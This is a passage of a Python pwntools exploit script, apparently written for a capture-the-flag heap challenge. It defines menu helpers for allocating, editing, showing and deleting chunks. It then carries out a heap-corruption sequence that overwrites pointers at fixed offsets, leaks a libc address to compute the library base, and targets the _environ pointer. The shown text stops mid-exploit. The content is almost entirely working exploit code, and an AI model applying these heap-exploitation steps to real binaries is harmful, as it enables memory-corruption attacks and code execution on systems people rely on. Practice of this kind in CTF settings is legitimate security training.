 ```python
	gdb.attach(p,"b *0x00402781\nb *0x0402E49\n b*0x0402E24")
	pause()


def menu(choice):
	ru("Now input your choice: ")
	sl(str(choice))

def add():
	menu(1)

def edit(index,offset,content):
	menu(2)
	ru("To write object, input idx:")
	sl(str(index))
	ru("Now data offset:")
	sl(str(offset))
	ru("Now input your data:")
	s(content)

def show(idx):
	menu(3)
	ru("Which one do you want to read?")
	sl(str(idx))

def delete(idx):
	menu(4)
	ru("Which one do you want to destroy?")
	sl(str(idx))


add()
add()
add()
add()
add()
add()
add()
delete(1)
delete(2)
delete(3)
delete(4)
delete(5)
delete(6)
add()
add()
add()
add()
add()
add()
edit(0, 0x130, p64(0x405FC8)+b"\n")
edit(0, 0x130+8, p32(0x444)+b"\n")

edit(0, 0, cyclic(544) + p64(0x406429+0x18)[:6]+b"\n")
show(6)
p.recvuntil(b'Data: ')
libc_base=uu64()-libc.sym['close']
lg("libc_base")

environ=libc_base+libc.sym['_environ']

edit(0, 0x130, p64(environ+1)+b"\n")
edit(0, 0x130+8, p32(0x444)+b"\n")
```